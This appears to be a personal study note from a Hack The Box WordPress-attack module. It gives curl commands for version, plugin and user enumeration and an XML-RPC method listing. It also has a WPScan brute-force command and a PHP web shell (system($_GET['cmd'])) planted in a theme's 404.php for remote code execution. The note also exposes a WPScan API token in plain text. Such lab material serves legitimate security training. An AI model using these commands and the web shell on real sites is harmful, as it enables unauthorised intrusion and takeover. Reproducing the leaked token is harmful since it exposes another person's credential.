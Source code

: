 ## Default WordPress File Structure

WordPress can be installed on a Windows, Linux, or Mac OSX host. For this module, we will focus on a default WordPress installation on an Ubuntu Linux web server. WordPress requires a fully installed and configured LAMP stack (Linux operating system, Apache HTTP Server, MySQL database, and the PHP programming language) before installation on a Linux host. After installation, all WordPress supporting files and directories will be accessible in the webroot located at `/var/www/html`.

![[Pasted image 20250623181121.png]]

## WP Version - Source Code 
To get the Source Version Code, we use the command : `curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'`

To check for the Version Number for Plugins : `curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2`

To check for the Version Number for Themes : `curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2`

To perform Plugins Active Enumeration : `curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta`

## Directory Indexing
```shell-session
curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text
```
Here html2text is the tool that converts HTML output to a nice readable format.

## User Enumeration
1. Check for the blogs or posts, where we could get parameters like ID, Usernames etc, so that we could enumerate them and check for other users too. The website URL would look like this : `http://blog.inlanefreight.com/?author=1`

2. The second method requires interaction with the `JSON` endpoint, which allows us to obtain a list of users. This was changed in WordPress core after version 4.7.1, and later versions only show whether a user is configured or not. Before this release, all users who had published a post were shown by default.
	**JSON Endpoint** : `curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq`


## Login
Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

To find Method Calls Available, we can use the command : `curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://94.237.59.174:31080/xmlrpc.php`

## WPScan Enumeration
The command to use the WPScan Enumeration : `wpscan --url http://ip:port --enumerate --api-token <api-token>`

API Token for WpScan : 4c8SSanMPgBTRC2hU15g5yFYmQOtzeFqKJECshNg4OU

## Attacking WP Users
### Bruteforce - XMLRPC
The command to use is : `wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com`

### RCE
To use the command : `curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"`

# Remote Code Execution (RCE) via the Theme Editor

## Attacking the WordPress Backend

With administrative access to WordPress, we can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect us to the admin panel. Click on `Appearance` on the side panel and select `Theme Editor`. This page will allow us to edit the PHP source code directly. We should select an inactive theme in order to avoid corrupting the main theme.

#### Theme Editor

![WordPress theme editor showing Transportex stylesheet with theme details and code.](https://academy.hackthebox.com/storage/modules/17/Theme-Editor.png)

We can see that the active theme is `Transportex` so an unused theme such as `Twenty Seventeen` should be chosen instead.

#### Selecting Theme

![WordPress theme editor showing Twenty Seventeen stylesheet with theme details and code.](https://academy.hackthebox.com/storage/modules/17/Twenty-Seventeen.png)

Choose a theme and click on `Select`. Next, choose a non-critical file such as `404.php` to modify and add a web shell.

#### Twenty Seventeen Theme - 404.php

Code: php

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow us to execute commands via the GET parameter `cmd`. In this example, we modified the source code of the `404.php` page and added a new function called `system()`. This function will allow us to directly execute operating system commands by sending a GET request and appending the `cmd` parameter to the end of the URL after a question mark `?` and specifying an operating system command. The modified URL should look like this `404.php?cmd=id`.

We can validate that we have achieved RCE by entering the URL into the web browser or issuing the `cURL` request below.

#### RCE

  Remote Code Execution (RCE) via the Theme Editor

```shell-session
ShibuShivansh@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

## Attacking Wordpress with Metasploit
Use `msfconsole` and then `search wp_admin` and use that exploit, by providing the necessary options to run the exploit.
![[Pasted image 20250624012201.png]]


